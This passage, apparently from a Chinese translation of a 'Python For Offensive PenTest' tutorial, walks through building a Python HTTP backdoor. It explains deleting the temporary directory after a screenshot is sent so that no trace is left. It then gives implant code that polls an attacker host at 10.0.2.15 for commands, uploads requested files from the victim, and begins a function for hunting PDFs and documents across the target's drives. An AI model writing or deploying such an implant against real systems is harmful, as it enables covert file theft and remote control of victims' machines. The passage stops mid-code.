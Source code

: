 ```
        files['file'].close() #Once the file gets transferred, close the file.
        shutil.rmtree(dirpath) #Remove the entire temp dir

...
```

首先，我们将创建一个`temp`目录，并将其路径存储在`dirpath`变量中。接下来，我们将告诉`ImageGrab`将`screencap`保存在新创建的`temp`目录中。同时，我们还会修改保存目录。我们还需要将这个更改反映到文件传输函数中，这样它才能知道图像文件的新路径。最后，一旦传输完成，我们必须确保文件被关闭，因为我们不能删除当前正在被应用程序或进程打开的文件。我们将删除整个目录。

尝试一下，确保没有留下任何痕迹。在`temp`目录中对`img`进行过滤，`img`是文件名或图像名称，然后像之前那样运行脚本，看看是否会有任何东西显示出来。一旦我们在攻击者机器上获得了`Shell>`，就运行`screencap`。当你在攻击者端截图后重命名，跳到目标端，看看是否有任何文件被创建。你会发现那儿什么也没有，因为我们在完成传输后删除了`temp`目录。

# 复制 Metasploit 搜索内容

接下来，我们将编写一个 Python 函数，它会在目标目录中搜索，并提供特定文件扩展名的文件位置列表。例如，假设我们需要在目标机器上搜索 PDF 或文档文件；我们不需要检查每个目录，而是将添加一个新函数来自动完成这个任务。这在你首次进入目标机器并尽可能多地探索数据（如文档、PDF 文件等）时非常有用。编写代码部分相当简单。我们将使用 Python 的`os`库来完成这个任务。所以，像往常一样，我添加了一个新的`if`语句来指定，如果我们获取到`search`关键字，我们将执行以下操作：

```
# Python For Offensive PenTest

# Searching for Content

import requests 
import subprocess 
import os
import time

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break 

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'search' in command: # The Formula is search <path>*.<file extension> , for example let's say that we got search C:\\*.pdf
        # if we remove the first 7 character the output would C:\\*.pdf which is basically what we need

        command = command[7:] # cut off the the first 7 character ,, output would be C:\\*.pdf

        path,ext=command.split('*') # split C:\\*.pdf into two sections, the first section (C:\\) will be stored in path variable and
                                     # the second variable (.pdf) will be stored in ext variable

        list = '' # here we define a string where we will append our result on it
        '''
           os.walk is a function that will navigate ALL the directories specified in the provided path and returns three values:-

            dirpath is a string contains the path to the directory
            dirnames is a list of the names of the subdirectories in dirpath
```